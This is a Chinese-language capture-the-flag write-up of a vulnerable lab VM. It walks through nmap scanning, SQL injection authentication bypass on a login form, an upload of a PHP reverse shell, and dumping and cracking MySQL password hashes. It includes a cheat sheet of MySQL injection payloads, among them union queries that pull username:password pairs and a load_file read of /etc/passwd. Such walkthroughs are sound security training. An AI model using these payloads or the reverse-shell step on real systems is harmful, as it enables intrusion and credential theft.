[TOC]

这个靶机感觉比较常规，不过sql注入还是值得再复习一下

# 信息收集

```
arp-scan -l
```

得到ip：192.168.174.171

```
nmap -p- --min-rate 10000 192.168.174.171 | awk -F ' ' '{print$1}' | awk -F '/' '{print$1}' |  tr '\n' ','
```



直接复制这些端口号，分别进行tcp详细扫描，漏洞扫描和udp扫描

## TCP扫描



- 80,901，8080,10000这四个端口都是http服务，也就是三个默认页面
- 139端口开放，用的是smaba协议

## 漏洞扫描



好像没有什么关键的信息

## UDP扫描



没有关键信息

# http服务分析

## 80端口


## 901端口



一个登陆页面

## 8080端口



一个表单，稍后可以尝试sql注入

## 10000端口



webmin是一个基于web的系统管理工具，尝试一下应该没有sql注入

# sql注入

在8080端口的表单上试一下

```
1'
```



发现报错了，而且是sql语句报错，说明应该存在sql注入，下面稍微总结一下关于怎么检验注入方法

## 注入判断与常用 Payload 速查（MySQL POST 表单，CTF7 场景）

| 步骤       | 目的             | Payload                                                      | 成功标志               |
| ---------- | ---------------- | ------------------------------------------------------------ | ---------------------- |
| 判断注入   | 测单引号是否报错 | `1'`                                                         | 页面异常 / 报错        |
| 永真验证   | 确认注入可控     | `1' or 1=1#`                                                 | 返回多条数据           |
| 永假对比   | 反向确认         | `1' and 1=2#`                                                | 返回空数据             |
| 猜字段数   | union 前置       | `1' order by N#`（N=1,2,3…）                                 | 报错的那个数字即总列数 |
| 找回显位   | 定位输出位置     | `1' and 1=2 union select 1,2,3#`                             | 页面显示的数字即回显位 |
| 查库名     | 获取当前库       | `1' and 1=2 union select 1,database(),version()#`            | 显示库名、版本         |
| 查表       | 列库内所有表     | `1' and 1=2 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='库名'#` | 显示所有表名           |
| 查字段     | 列表内字段       | `1' and 1=2 union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='库名' and table_name='表名'#` | 显示所有字段名         |
| 拿账号密码 | 核心取凭据       | `1' and 1=2 union select 1,2,group_concat(username,0x3a,password) from users#` | 账号：密码 列表        |
| 读文件     | 读服务器文件     | `1' and 1=2 union select 1,2,load_file('/etc/passwd')#`      | 显示文件内容           |

## MySQL 注释语法（为什么有的加空格有的不加）

| 注释符  | 是否需要空格     | 示例               | 说明                                  |
| ------- | ---------------- | ------------------ | ------------------------------------- |
| `-- `   | **必须**后跟空格 | `1' or 1=1 -- -`   | `--`无空格被当成减号运算符，语法报错  |
| `#`     | **不需要**       | `1' or 1=1#`       | MySQL 原生注释，POST 表单注入首选     |
| `/* */` | 不需要           | `1'/**/or/**/1=1#` | 多行注释，可代替空格绕过过滤          |
| `--+`   | 见右说明         | GET URL 用         | `+`只是 URL 编码的空格，POST 里不生效 |

## Form (POST) 注入 vs URL (GET) 注入

| 对比项           | GET（URL）                   | POST（表单）                         |
| ---------------- | ---------------------------- | ------------------------------------ |
| 数据位置         | 地址栏查询串                 | 请求体 body                          |
| `+` 是否转空格   | ✅ 是（URL 解码）             | ❌ 页面输入框提交不转（raw 抓包才转） |
| `%20`/`%27` 编码 | 需要                         | 一般不需要                           |
| 推荐注释符       | `--+`                        | `#` 或 `-- `                         |
| 用 `#` 的坑      | `#` 是锚点，浏览器截断不发送 | 无，正常生效                         |
| payload 长度     | 有限制，长语句易截断         | 几乎无限制                           |
| 日志暴露         | URL 完整记录，易审计         | body 不易进日志                      |
| 注入原理         | 相同                         | 相同（差别只在 Web 层解码）          |

## 两个经典 Payload 适用场景

| Payload        | 原理                         | ✅ 适用                                                | ❌ 不适用                                         |
| -------------- | ---------------------------- | ----------------------------------------------------- | ------------------------------------------------ |
| `1' or 1=1#`   | 用 `#` 注释掉后端自带引号    | MySQL、单引号闭合、`#`未被过滤、where 后面有 AND 子句 | 非 MySQL、`#`被过滤                              |
| `1' or '1'='1` | 手动构造引号自闭合，不用注释 | 单引号闭合、`#`/`--`被过滤（WAF 拦截注释符）          | where 后面还有其他条件（会变非永真）、多引号结构 |

- 后端 `WHERE id='$input' AND status='1'` 这种带 AND 的，**必须用 `#` 注释**，用自闭合 payload 会失效；
- 自闭合 payload `1' or '1'='1` **末尾不要再加引号**，否则两个连续单引号语法报错。

## 常见失败 Payload 及原因

| Payload                       | 失败原因                               | 正确替代                       |
| ----------------------------- | -------------------------------------- | ------------------------------ |
| `1' or 1=1--+`（POST 表单）   | POST 中`+`不转空格，`--`后无空格不注释 | `1' or 1=1#`                   |
| `1' or 1=1--`                 | `--`后无空格，被当减法运算符           | `1' or 1=1 -- -`               |
| `1' or '1'='1--+`             | 同`--+`问题 + 自闭合构造多余           | `1' or '1'='1` 或 `1' or 1=1#` |
| `1' or '1'='1'`（末尾多引号） | 两个连续单引号，语法错误               | 去掉末尾引号                   |

------

```
1' or 1=1#
```

测试后发现使用这个万能密码可以直接进入一个可交互页面





发现这个页面可以进行编辑或者添加新页面，随便点一个进去



发现我们可以上传文件，所以我们下一步就是上传一个反弹shell的php文件，并想方法让系统访问他

```
find / -iname "*reverse*php*" 2>/dev/null
```



将/usr/share/webshells/php/php-reverse-shell.php复制过来并且上传（我是新建了一个）

- 在尝试怎么访问时我们可以通过爆破目录找到存储文件的地方，也可以尝试让系统报错，显示目录

- 尝试新建时什么也不改动直接保存会出现


确定目录/var/www/html/assets



爆破的目录中也有这个



发现我们上传的脚本，直接进行反弹shell连接

# shell分析

- 有两种拿root的方法，不过其实差不多，比较简单

## 一：

/var/www/admin和/var/www/html目录下都一个目录



inc目录，是include的简写，可能存储重要文件，这个靶机中里面有一个db.php



发现了mysql的账户root，密码为空



通过查询得到了许多账号以及对应的密码哈希值，通过md5解密，有一些用户得到密码

